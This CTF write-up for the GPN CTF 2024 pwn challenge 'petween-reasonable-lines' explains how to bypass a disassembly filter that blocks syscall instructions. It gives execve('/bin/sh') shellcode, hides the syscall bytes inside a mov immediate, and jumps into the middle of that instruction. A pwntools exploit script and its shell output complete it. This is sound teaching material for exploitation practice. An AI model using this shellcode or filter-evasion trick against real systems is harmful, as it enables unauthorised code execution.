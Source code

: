 # GPN CTF 2024

## pwn/petween-reasonable-lines

## Introduction

This is a shellcode assembly challenge.
We're given a perl script `vuln.pl`:

```perl
#!/usr/bin/perl
use strict;
use DynaLoader;
use IPC::Open2;

print "Disassemble what?\n";
$| = 1;
my $s = 42;
my $p = syscall(9, 0, $s, 2, 33, -1, 0);
syscall(0, 0, $p, $s);
my $c = unpack "P$s", pack("Q", $p);

open2 my $out, my $in, "ndisasm -b64 -";
print $in $c;
close $in;
for (<$out>) {
 print $_;
 if (/syscall|sysenter|int|0x3b/) {
  die "no hax pls";
 }
}

print "Looks safe.\n";
syscall(10, $p, $s, 4);
&{DynaLoader::dl_install_xsub("", $p)};
```

Understanding the perl code is not required to solve the challenge. But here is a breakdown of the important parts of the code:
<br>
`$p` is the address of the memory region created by calling `mmap` (syscall 9) with `PROT_WRITE` flag.
Next, the program is reads `$s` (42) bytes from the standard input into `$p` (using syscall 0).
`$c` is the shellcode that we read from the standard input.
<br><br>
The program then disassembles the shellcode (and prints every line) using `ndisasm` and filters out `syscall`, `sysenter`, `int`, `0x3b`.
It uses `mprotect` (syscall 10) to set the memory to `PROT_EXECUTE` only and uses DynaLoader to load and execute the shellcode.
So, we're expected to write a shellcode to make a `execve(/bin/sh)` call without using any of the filtered instructions.

## Writing basic shellcode

First, let's write some `nasm` shellcode that uses `syscall` to make a `execve(/bin/sh)` call.

```nasm
global _start
section .text
_start:
    mov rdi,0x68732f2f6e69622f
    push 0
    push rdi
    push rsp
    pop rdi
    xor rax, rax
    xor rsi, rsi
    xor rdx, rdx
    mov al, 59
    syscall
```

This basically loads the string `/bin//sh` into `rdi`. But `execve` expects a pointer to the string as the first argument (`rdi`). So, we push the address of the string onto the stack and load it into `rdi` (the `push 0` is for the null terminator). Then, we zero out `rax`, `rsi`, `rdx` (making other arguments 0 to be safe) and set `rax` to `59` (the syscall number for `execve`). Finally, we make the syscall.
<br>
Assembling and running this code via `nasm -felf64 shellcode.s && ld shellcode.o -o shellcode && ./shellcode` gives us a shell, as expected.

## Exploit

Viewing the code at [godbolt](https://godbolt.org/>) gives us the following disassembly:<br><br>
![Disassembly](godbolt1.jpeg)<br><br>
The lines using `0x3b` and `syscall` in hex are `b0 3b 0f 05`. So if we write a valid instruction that contains these bytes, and if we jump to the middle of that instruction to the `b0 3b 0f 05` part, then out desired instructions will be executed and the instruction wouldn't trigger any of the filters.
<br><br>
Since, our desired instructions are of 4 bytes, we can write a `mov` instruction from `0x050f3bb0` (the instruction in little endian) into any of the 4 byte registers.
`mov eax, 0x050f3bb0` translates to `b8 b0 3b 0f 05` in hex.
<br><br>
Next, we write some code that jumps to the middle of the `mov` instruction:<br><br>
![Disassembly](godbolt2.jpeg)<br><br>
Finally, we write a `pwntools` script to send this shellcode to the server:

```python
from pwn import *

context.arch = "amd64"
a = asm("""
movabs rdi, 0x68732f2f6e69622f
push 0x0
push rdi
push rsp
pop rdi
xor rax, rax
xor rsi, rsi
xor rdx, rdx
lea rbx, [rip + 0x3]
jmp rbx
mov eax, 0x50f3bb0""")

# p = process("./vuln.pl")
p = remote("xxx.ctf.kitctf.de", "xxx", ssl=True)
p.recvuntil(b"Disassemble what?")
p.sendline(a)
p.recvuntil(b"Looks safe.")
p.interactive()
```

Running this script gives us a shell:

```bash
[+] Opening connection to xxx.ctf.kitctf.de on port xxx: Done
[*] Switching to interactive mode

$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag
GPNCTF{On3_d0es_Not_s1mply_Jump_int0_th3_m1ddle_of_4n_instruct1ion!!1}
```
